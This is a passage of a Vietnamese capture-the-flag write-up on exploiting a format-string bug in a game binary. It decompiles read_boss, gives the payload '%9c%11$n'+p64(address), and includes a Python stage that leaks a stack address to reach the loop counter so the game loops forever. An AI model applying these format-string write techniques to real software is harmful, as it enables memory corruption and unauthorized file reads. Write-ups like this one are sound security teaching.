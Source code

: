 

Vì mục tiêu là đọc được file flag, vì vậy ta có thể tận dụng hàm read_boss để read file "flag":

```clike
void read_boss(long param_1,char *param_2)

{
  FILE *__stream;

  __stream = fopen(param_2,"r");
  if (__stream == (FILE *)0x0) {
    puts(&DAT_00401310);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __isoc99_fscanf(__stream,&DAT_00401355,param_1);
  __isoc99_fscanf(__stream,&DAT_00401358,param_1 + 0x10);
  __isoc99_fscanf(__stream,&DAT_0040135d,param_1 + 0x18);
  __isoc99_fscanf(__stream,&DAT_0040135d,param_1 + 0x1c);
  __isoc99_fscanf(__stream,&DAT_00401355,param_1 + 0x20);
  fclose(__stream);
  puts("\n=========INFO BOSS=========\n");
  printf("Name: %s\n",param_1);
  printf("Health: %lld\n",*(undefined8 *)(param_1 + 0x10));
  printf("Strength: %u\n",(ulong)*(uint *)(param_1 + 0x18));
  printf("Defend: %u\n",(ulong)*(uint *)(param_1 + 0x1c));
  printf("Skill: %s\n",param_1 + 0x20);
  puts("\n===========================\n");
  return;
}
```
Nhận thấy lúc truyền vào tham số cho hàm này, chương trình truyền vào một chuỗi được lưu ở địa chỉ 0x602098 cộng thêm với offset cho từng stage (tổng cộng có 3 chuỗi cách nhau 7 bytes), **_và chuỗi này có quyền write_**.
Vì vậy nếu ta tận dụng format string để chỉnh sửa chuỗi này, ta có thể đọc được file "flag" thông qua hàm read_boss.

Sau khi leak stack, mình nhận thấy buffer lưu tên người chơi nằm ở offset 10, nghĩa là ta có thể write tùy ý vào chương trình.
Tuy nhiên, vì giới hạn 16 bytes nên nếu ta mất 8 bytes để **pack64 địa chỉ** thì ta chỉ còn lại 8 bytes.
Vậy max giá trị ta có thể ghi được vào 1 địa chỉ bất kì là 0x9 **_(payload: "%9c%11$n"+p64(address))**_.
Nghĩa là ta không thể ghi từng giá trị của chuỗi "flag" được. Tuy nhiên, ta có thể tận dụng cách này để khiến trò chơi lặp vô hạn.

##Stage 1:

Vì lúc leak mình nhận thấy mình có thể leak được giá trị của stack nên ta có thể overwrite giá trị trên stack, ở đây ta sẽ overwrite biến đếm vòng lặp của trò chơi thành 0 để khiến trò chơi lặp vô hạn:

```py
def leak_stack():
    name(b'..%p')
    #Boss 1 : x6
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    P.recvuntil(b'..')
    leak_stack = int(P.recvline().strip(),16)
    turn_stack = leak_stack+0x26b0      # 0x80
    print(hex(turn_stack))
```